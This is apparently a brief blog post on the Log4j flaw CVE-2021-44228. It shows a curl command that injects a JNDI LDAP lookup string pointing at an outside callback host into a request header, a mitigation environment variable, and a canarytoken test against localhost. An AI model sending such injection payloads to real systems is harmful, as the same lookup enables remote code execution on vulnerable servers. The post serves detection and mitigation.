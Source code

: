 ```yaml
---
layout: post
title:  "log4j"
date:   2021-12-09 13:11:00 +0200
categories: log4j java tomcat
---
```

```
curl https://hostname -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}'
```
mitigation:<br>
[https://www.docker.com/blog/apache-log4j-2-cve-2021-44228/](https://www.docker.com/blog/apache-log4j-2-cve-2021-44228/)
```
ENV LOG4J_FORMAT_MSG_NO_LOOKUPS=true
```

geoserver:<br>
[http://geoserver.org/announcements/2021/12/13/logj4-rce-statement.html](http://geoserver.org/announcements/2021/12/13/logj4-rce-statement.html)

test:
[https://canarytokens.org/generate](https://canarytokens.org/generate)
2) 
```
curl 127.0.0.1:8080 -H 'X-Api-Version: canarytoken'
```